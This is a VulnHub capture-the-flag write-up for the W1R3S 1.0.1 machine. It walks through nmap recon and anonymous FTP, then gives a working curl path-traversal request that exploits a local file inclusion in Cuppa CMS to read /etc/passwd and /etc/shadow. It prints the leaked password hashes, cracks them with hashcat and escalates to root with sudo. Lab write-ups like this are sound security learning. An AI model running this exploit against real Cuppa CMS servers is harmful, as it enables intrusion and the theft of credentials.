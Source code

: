 ```yaml
---
layout: post
title: W1R3S: 1.0.1
date: 2020-07-06
author: th3-3inst3in
comments: true
categories: vulnhub
tags: [ctf,vulnhub]
---
```


## Recon

After configuring the W1R3S: 1.0.1 and getting its ip through  nmap. I quicky ran a nmap scan 

#### Nmap results

```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.174.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|   256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
|_  256 3d:6d:d2:4b:46:e8:c9:a3:49:e0:93:56:22:2e:e3:54 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel

````

#### Enumeration

**FTP**

I originally started off with the ftp anonymous login and found 3 folders one contained usernames the rest were just trolls e.g one of the files contained the following test 

```bash
New FTP Server For W1R3S.inc
#
#
#
#
#
#
#
#
01ec2d8fc11c493b25029fb1f47f39ce
#
#
#
#
#
#
#
#
#
#
#
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==
```
I decoded the base64 string and decoded to `It is easy, but not that easy..`

**Web**

Next I went on to enumerate the web apps since that seemed to be the most likely way of getting in the server.

I found out that its running Cuppa CMS. I did a quick google search and found this exploit 
https://www.exploit-db.com/exploits/25971

Though this did not work the file did load up but nothing came up on the page. 

I downloaded the source code of the app from https://github.com/CuppaCMS/CuppaCMS and started to dig in myself to verify if the vuln listed on exploit-db exited. 

from the exploit on exploit-db the problem was in `/alerts/alertConfigField.php (LINE: 22)`

![exploit db image]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/exploitdb.png)

I did a quick grep on the mentioned page but nothing came up


![grep nothing found]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/grep1.png)

Then I begain to analyze the code further and I saw the following

![grep found]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/grep2.png)

and finally using this information I was able to exploit the LFI

```bash

curl -X POST --data "urlConfig=../../../../../../../../../etc/passwd" http://192.168.174.140/administrator/alerts/alertConfigField.php
```
![lfi]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/lfi.png)


#### Exploitation

I was able to read the /etc/shadow file 

```bash
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::

```

used `hashcat` and rockyou.txt to crack the passwords


![hashcat]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/hashcat.png)

and logged in with user `w1r3s`

![ssh]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/ssh.png)


#### Priv Esec

I just simply ran `sudo su` and entered the password computer and voila! got root

![root]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/root.png)
